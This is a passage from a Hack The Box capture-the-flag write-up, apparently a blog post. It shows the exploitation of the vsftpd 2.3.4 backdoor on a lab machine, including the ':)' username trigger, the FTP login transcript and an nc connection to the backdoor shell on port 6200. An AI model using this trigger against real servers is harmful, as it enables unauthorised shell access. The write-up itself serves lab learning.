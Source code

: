 <br/>
<H1>Exploitation:</H1>
I started to search exploits for the services found on nmap. 
By searching exploit of vsftpd 2.3.4 on google, we land to this page 
`https://sweshsec.wordpress.com/2015/07/31/vsftpd-vulnerability-exploitation-with-manual-approach/`
<br/>
The exploit: 
If we try to log into the FTP server with a username ending with `:)` and any password, then a backdoor opens at port `6200`.
<br/>
{% highlight HTML %}
ftp 10.10.10.131
Connected to 10.10.10.131.
220 (vsFTPd 2.3.4)
Name (10.10.10.131:an4m1k): user:)
331 Please specify the password.
Password:


{% endhighlight %}
The shell freezes after this.

Let's try to connect to port `6200` as per the exploit.
<br/>
`nc -nv 10.10.10.131 6200` 
<br/>
![](/images/hackthebox/lacasa/6200.png)
<br/>
It looks like a php shell, so I assumed that it will interpret php commands. If we try any system commands then the system doesn't recognize those commands.
After trying some commands, I found something interesting.
<br/>
![](/images/hackthebox/lacasa/6200 help.png)
<br/>
After trying multiple commands with `sudo`, I found some commands that worked.
<br/>
`scandir:` Returns an array of files and directories from directory.
<br/>